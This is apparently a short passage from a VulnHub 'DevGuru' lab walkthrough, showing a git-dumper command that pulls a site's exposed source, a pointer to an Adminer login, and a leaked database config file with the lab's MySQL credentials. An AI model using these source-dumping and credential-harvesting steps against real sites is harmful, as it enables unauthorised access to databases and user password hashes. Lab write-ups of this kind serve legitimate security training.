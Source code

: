 ## Dump the source code

```bash
└──╼ # /opt/git-dumper/git-dumper.py http://devguru.local/ website/
```

## adminer.php and db creds for application:

[![](/assets/images/vulnhub/devguru/img2.png)](/assets/images/vulnhub/devguru/img2.png)

# Login to adminer.php and see Frank Morris hash

```php
<?php

//config/database.php
return [
/*****/
'mysql' => [
            'driver'     => 'mysql',
            'engine'     => 'InnoDB',
            'host'       => 'localhost',
            'port'       => 3306,
            'database'   => 'octoberdb',
            'username'   => 'october',
            'password'   => 'SQ66EBYx4GT3byXH',
            'charset'    => 'utf8mb4',
            'collation'  => 'utf8mb4_unicode_ci',
            'prefix'     => '',
            'varcharmax' => 191,
        ],
/*****/
];
```
